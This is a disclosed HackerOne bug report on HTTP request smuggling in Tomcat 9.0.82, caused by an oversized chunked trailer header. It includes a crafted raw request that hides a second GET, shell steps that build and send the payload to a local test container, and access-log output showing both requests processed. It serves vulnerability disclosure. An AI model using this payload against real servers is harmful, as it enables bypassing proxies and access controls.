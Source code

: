 # Possibility of Request smuggling attack

## Report Details
- **Report ID**: 2280391
- **URL**: https://hackerone.com/reports/2280391
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-12-11T03:45:40.874Z
- **Disclosed**: 2023-12-22T06:22:35.942Z

## Reporter
- **Username**: aimotonorihito
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Request smuggling was possible by throwing an IOException with the upper size limit of the trailer header.
Confirmed with tomcat version 9.0.82.

* example
~~~~~~~~~~~~~~~~~~
POST /examples/test.jsp HTTP/1.1
Host: www.example.co.jp
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Connection: KeepAlive

5
foo=b
2
ar
0
testtrailer: aaaaa...(large size)
a: GET /examples/?this_is_attack HTTP/1.1
Host: attack

~~~~~~~~~~~~~~~~~~


* Reproduce with the following steps:
```
$ git clone https://github.com/oss-aimoto/tomcat-trailer.git
$ cd tomcat-trailer
$ docker-compose build
$ docker-compose up -d
$ echo -n "testtrailer: " > 8190_EXCLUDE_COLON_SP_CR_LF.txt
$ for i in `seq 8179`; do echo -n "a"; done >> 8190_EXCLUDE_COLON_SP_CR_LF.txt
$ perl -e 'print "\r\n"' >> 8190_EXCLUDE_COLON_SP_CR_LF.txt
$ head -11 base.txt > attack5.txt
$ cat 8190_EXCLUDE_COLON_SP_CR_LF.txt >> attack5.txt
$ perl -e 'print "a: GET /examples/?this_is_attack HTTP/1.1\r\nHost: attack\r\n\r\n"' >> attack5.txt
$ cat attack5.txt | curl telnet://localhost:8082/ --output -
```

The result of curl is two HTTP responses("/examples/test.jsp" and "/examples/?this_is_attack").
Two requests are recorded in the Tomcat access log.

```
192.168.128.1 - - [23/Oct/2023:06:55:37 +0000] "POST /examples/test.jsp HTTP/1.1" 200 58
192.168.128.1 - - [23/Oct/2023:06:55:37 +0000] "GET /examples/?this_is_attack HTTP/1.1" 200 1126 
```

## Impact

A trailer header that exceeded the header size limit could cause Tomcat to treat a single request as multiple requests leading to the possibility of request smuggling when behind a reverse proxy.

## Attachments
No attachments
